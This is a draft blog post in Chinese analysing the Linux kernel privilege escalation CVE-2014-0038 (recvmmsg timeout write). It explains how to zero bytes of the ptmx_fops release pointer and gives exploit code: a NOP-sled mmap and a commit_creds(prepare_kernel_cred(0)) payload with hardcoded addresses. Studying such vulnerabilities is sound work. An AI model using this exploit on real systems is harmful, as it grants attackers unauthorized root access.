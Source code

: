 +++
title = "CVE-2014-0038"
date = "2014-04-16"
tags = ["socket", "security", "networking"]
categories = ["blog"]
draft = true
+++

利用漏洞将 ``ptmx_fops`` 返回函数的高字节置零，让它指向payload。然后payload在被kernel执行，调用 ``commit_cred`` 获取root。

# Vulnerability

```c
asmlinkage long compat_sys_recvmmsg(int fd, struct compat_mmsghdr __user *mmsg, unsigned int vlen, unsigned int flags, struct compat_timespec __user *timeout)
{
  int datagrams;
  struct timespec ktspec;
  
  if (flags & MSG_CMSG_COMPAT)
    return -EINVAL;
  
  if (COMPAT_USE_64BIT_TIME)
    return __sys_recvmmsg(fd, (struct mmsghdr __user *)mmsg, vlen,
      flags | MSG_CMSG_COMPAT,
      (struct timespec *) timeout);
  ...
```
        
``timeout`` 是从userland传过来的指针，随后被直接（只做了cast ``(struct timespec *) timeout`` ）传给系统调用 ``__sys_recvmmsg`` 。

- Why ``CONFIG_X86_X32`` is mandatory?


```c
struct timespec {
  __kernel_time_t tv_sec;     /* seconds */
  long    tv_nsec;    /* nanoseconds */
};
typedef __kernel_long_t __kernel_time_t;
```

``__sys_recvmmsg`` 中有两处修改了 ``void *timeout`` .

- 读取 ``timeout``

```c
if (timeout && 
        poll_select_set_timeout(&end_time, timeout->tv_sec,
          timeout->tv_nsec))  // READ ONLY, end_time = timeout
  return -EINVAL;
```
- 更新 ``timeout``

```c
if (timeout) {
  ktime_get_ts(timeout);                         // get now
  *timeout = timespec_sub(end_time, *timeout);   // A - B
  if (timeout->tv_sec < 0) {                     // if timeout really happens
    timeout->tv_sec = timeout->tv_nsec = 0;
    break;                                     // return
  }

  /* Timeout, return less than vlen datagrams */
  if (timeout->tv_nsec == 0 && timeout->tv_sec == 0)
    break;
}
```

所以返回前将 ``timeout->tv_sec = timeout->tv_nsec = 0;``

## 清除一个字节的过程

1. 主进程 ``retval = syscall(__NR_recvmmsg, sockfd, &msgs, 1, 0, (void*)addr)``; 其中 ``addr & 0xFF == 0xFF``
2. 子进程 ``sleep(254)`` 然后 sendto
3. 因为父进程调用 ``recv`` 长达254s之后子进程才发送，所以父进程的调用 ``__NR_recvmmsg`` 会超时
4. 超时发生时，``addr`` 被写 ``0``，然后返回。

# 获取root

- 利用了 ``ptmx_fops`` 的release function指针（在non initialized (and thus writable) kernel memory中） 
- 将指针的高3字节置0，使之指向用户空间中的payload
- Open ``/dev/ptmx``, close it and enjoy.

## payload构造


```c
// code 是payload地址
code = (long)mmap((void*)(TTY_RELEASE & 0x000000fffffff000LL), PAYLOADSIZE, 7, 0x32, 0, 0);
// 0x90 技法
memset((void*)code, 0x90, PAYLOADSIZE);
code += PAYLOADSIZE - 1024;
memcpy((void*)code, &kernel_payload, 1024);

// payload 构造
#define COMMIT_CREDS        0xffffffff8108ad40LL
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);

kernel_payload(void* foo, void* bar)
{
    _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
    _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;

    /* restore function pointer and following two longs */
    *((int*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 4)) = -1;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 8)) = 0;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 16)) = 0;

    /* escalate to root */
    commit_creds(prepare_kernel_cred(0));

    return -1;
}
```
    
# 疑问

1. 为什么 ``zero_out`` 只置零1个字节，而不是一个 ``long`` (16 bytes)？
